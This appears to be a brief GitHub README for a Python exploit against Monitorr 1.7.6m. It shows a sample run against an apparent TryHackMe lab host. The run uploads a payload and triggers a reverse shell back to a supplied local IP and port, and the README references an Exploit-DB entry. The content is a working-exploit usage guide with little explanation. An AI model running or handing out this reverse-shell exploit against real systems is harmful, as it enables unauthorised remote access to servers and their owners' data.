 # monitorr1.7.6m

+ Exploit vulnerable monitorr ver 1.7.6m. 

```bash
$ python3 monitorr.py
[*] Example usage: 
        > url: https://monitorr.robyns-petshop.thm
        > local ip: 57.123.456.789
        > local port: 443
-------------------------
> url (include schema): https://monitorr.robyns-petshop.thm
> local ip: 10.4.1.61
> local port: 443
[+] Successfully upload payload
[+] Triggering reverse shell
[*] Should've got rev shell
```
<br>

+ Reference: [ https://www.exploit-db.com/exploits/48980 ]

